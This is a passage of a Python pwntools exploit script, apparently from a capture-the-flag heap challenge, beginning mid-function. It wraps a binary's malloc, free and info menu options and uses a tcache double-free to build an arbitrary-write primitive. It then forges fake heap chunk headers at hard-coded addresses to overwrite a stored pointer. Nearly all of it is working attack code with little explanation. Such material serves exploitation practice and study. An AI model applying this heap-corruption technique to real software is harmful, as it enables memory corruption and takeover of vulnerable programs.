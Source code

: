 ```python
	global malloc_counter
	malloc_counter += 1

	r.recvuntil(' :')
	r.send('1')
	r.recvuntil('Size:')
	r.send(str(size))
	r.recvuntil('Data:')
	r.send(data)
	
	info("[Malloc %d] Allocated chunk [size: %d, data: %s]" % (malloc_counter, size, data))

free_counter = 0
malloc_counter = 0

def free():
	global free_counter
	free_counter += 1
	r.recvuntil(' :')
	r.send('2')
	info("  [Free {n}] Freed last allocated chunk".format(n=free_counter))


def mem_write(address, value, s):
	info("[Mem Write ] Writing %s to %s" % (value, hex(address)))
	malloc(s, "anything")
	free()
	free()
	malloc(s, p64(address))
	malloc(s, p64(address))
	malloc(s, value)

def get_info():
	r.recvuntil(' :')
	r.send('3')
	r.recvuntil(' :')
	return r.recv(0x20)

print(elf.got)
print(elf.symbols)

r.recvuntil('Name:')
r.send('anything')


mem_write(0x602550, 
			p64(0) + 	# Previous Size
			p64(0x21) +	# Chunk Size (A=0, M=0, P=1)
			p64(0) + 	# Forward Pointer
			p64(0) + 	# Backward Pointer
			p64(0) + 	# Empty Space
			p64(0x21),	# Next Previous Size
		0x70)

mem_write(0x602050,
			p64(0) +	# 0x602050		Previous Size 
			p64(0x501) +	# 0x602058		Chunk Size (A=0, M=0, P=1)
			p64(0) +	# 0x602060[name_buffer]	Forward Pointer
			p64(0) +	# 0x602068		Backward Pointer
			p64(0)*3 +	# 0x602070		Empty Space
			p64(0x602060),	# 0x602088[malloced] 	Overwrite the last malloced value
		0x60)

```